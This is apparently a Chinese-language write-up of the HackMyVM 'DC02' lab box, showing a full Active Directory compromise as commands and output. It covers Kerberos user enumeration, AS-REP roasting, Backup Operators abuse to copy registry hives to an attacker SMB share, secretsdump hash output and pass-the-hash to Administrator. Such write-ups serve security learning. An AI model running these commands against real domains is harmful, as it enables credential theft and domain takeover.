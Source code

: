 ```yaml
---
title: "HackMyVm-DC02"
date: 2025-03-03
categories: 
  - "hackmyvm"
tags: 
  - "hackmyvm"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.126 -sV -Pn -T4  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-02 18:44 CST
Nmap scan report for 192.168.56.126
Host is up (0.00028s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-02 23:47:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
MAC Address: 08:00:27:4E:CF:21 (Oracle VirtualBox virtual NIC)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.84 seconds
```

把**SOUPEDECODE.LOCAL**、**DC01.SOUPEDECODE.LOCAL**添加到**/etc/hosts**

## UserEnum

尝试**enum4linux**结果不允许空名枚举

![](./images/image-47.png)

并且在**DC03**中尝试过的**LLMNR**中毒攻击也没有任何反应

![](./images/image-48.png)

因此只能通过**kerberos**来进行用户枚举

- [ropnop/kerbrute: A tool to perform Kerberos pre-auth bruteforcing](https://github.com/ropnop/kerbrute)

用外部字典扫描到四个存在的用户

![](./images/image-49.png)

利用点应该是从**charlie**入手，需要注意的是要同步时区！！！！！

```
[root@kali] /home/kali/DC02  
❯ ntpdate soupedecode.local 
```

![](./images/image-50.png)

得到**charlie**的密码就是**charlie**

使用**crackmapexec**获取到用户名列表

```
[root@kali] /home/kali/DC02  
❯ crackmapexec smb 192.168.56.126 -u charlie -p charlie --rid-brute | grep SidTypeUser | sed 's/.*\\\(.*\)(.*/\1/'  > usernames.txt
```

## GetNPUsers

查看哪些用户没有设置预认证

```
[root@kali] /home/kali/DC02  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "192.168.56.126" soupedecode.local/
```

![](./images/image-51.png)

爆破得到密码

![](./images/image-52.png)

```
zximena448:internet
```

## Bloodhound

尽管目标机器上开放了**53**端口，存在**DNS**服务，但是呢经过测试是不可用的。

![](./images/image-55.png)

因此需要在本地开启一个**dnschef**，伪造**DNS**服务，也可以充当**DNS**服务器，绕过解析

```
[root@kali] /home/kali  
❯ dnschef --fakeip 192.168.56.126

[root@kali] /home/kali/DC02  
❯ bloodhound-python  -u 'zximena448' -p 'internet' -ns 127.0.0.1 -d SOUPEDECODE.LOCAL  -dc DC01.SOUPEDECODE.LOCAL   --zip 
```

![](./images/image-56.png)

可以看到当前的**ZXIMENA448**用户属于**BackupOperators**组

这在我之前写过的一篇文章中遇到过：[HTB-Blackfield - HYH](https://www.hyhforever.top/htb-blackfield/)

可以参考的文章👇

- [Backup Operator Privilege Escalation < BorderGate](https://www.bordergate.co.uk/backup-operator-privilege-escalation/)

现在本地开启一个**smb**服务

```
[root@kali] /tmp/shared  
❯ impacket-smbserver -smb2support -ts -debug share /tmp/shared      
```

然后提取 **SAM** 数据

```
[root@kali] /home/kali/DC02/backup_dc_registry (main) 
❯ impacket-reg -dc-ip 192.168.56.126 SOUPEDECODE.LOCAL/zximena448:internet@192.168.56.126  backup -o '\\192.168.56.104\share' 
```

下面这个**Administrator**的**hash**是无法使用的

```
[root@kali] /tmp/shared  
❯ impacket-secretsdump -system SYSTEM.save -sam SAM.save -security SECURITY.save LOCAL                                                                                                                        ⏎
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a2d41e766e263b6324dcbd7aff4b69b3c42e44658e119ba6a43eae3f1da750a7689e19b94127d12e63171960583effc488a64efc45fa83d296e9f3cbcdccdbc693a3724e303fc24a67a183fbb60e6b0a2bf3638e60dbf01ad0b84b6cde6ff73d4c2a8a6a4bcb3027e0ccd34f360309b1551c684a13e4aac89c65effd462c458305181e08af5911c50c537f8f3f7280297ef15b961a3150a4caa27284be9120f7f786454f7db8282311573011a2d3d753f969493522d2d4d76e513903b63767f7b393ef389616d4faba451a683231add72167785765816010fa65786306ec10dd2ce0fd50cc4db6b304e9a60562852f7f
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3582a8b74d192bbeca8a23cd2022baae
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up... 
```

但是获取到了**机器账户的hash ($MACHINE.ACC)**

**MachineAccount**是每台计算机在安装系统后默认生成的计算机帐户

## PasswordSpray

进行密码喷洒，发现这个**hash**是**DC01**用户的

```
[root@kali] /home/kali/DC02  
❯ crackmapexec smb 192.168.56.126 -u usernames.txt -H '3582a8b74d192bbeca8a23cd2022baae'                                                                                                                      ⏎
SMB         192.168.56.126  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.126  445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:3582a8b74d192bbeca8a23cd2022baae STATUS_LOGON_FAILURE 
SMB         192.168.56.126  445    DC01             [-] SOUPEDECODE.LOCAL\Guest:3582a8b74d192bbeca8a23cd2022baae STATUS_LOGON_FAILURE 
SMB         192.168.56.126  445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:3582a8b74d192bbeca8a23cd2022baae STATUS_LOGON_FAILURE 
SMB         192.168.56.126  445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:3582a8b74d192bbeca8a23cd2022baae 
```

再次进行**secrets-dump**，查看是否在**DC01**上保存有**Admin**的**hash**

```
[root@kali] /home/kali/DC02  
❯ impacket-secretsdump SOUPEDECODE.LOCAL/'DC01$'@192.168.56.126 -hashes 'aad3b435b51404eeaad3b435b51404ee:3582a8b74d192bbeca8a23cd2022baae' -target-ip 192.168.56.126 | grep Administrator                    ⏎
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Administrator:aes256-cts-hmac-sha1-96:01dc1e0f079f2dfe4a880156b7192acc658b8733cc87f1c5be32c291ad8e0318
Administrator:aes128-cts-hmac-sha1-96:4b4cf4064e92346339b1a3ef3ff65d6b
Administrator:des-cbc-md5:b0614357f8160ef4
```

最后使用**Evil-winrm**登录

![](./images/image-57.png)

## Summary

先通过**kerbrute**进行用户名爆破，再检查到了没有设置**Kerberos**预认证的用户，泄露出用户哈希，获取到用户**zximena448**。

**zximena448**用户属于**Backup Operators**组，可以利用其权限获取到**SAM**等数据文件。分析得到域内默认机器**DC01**的密码哈希。

最后在**DC01**的机器上进行哈希提取，应该是**Administrator**登陆过**DC01**，因此提取到了他的哈希值。
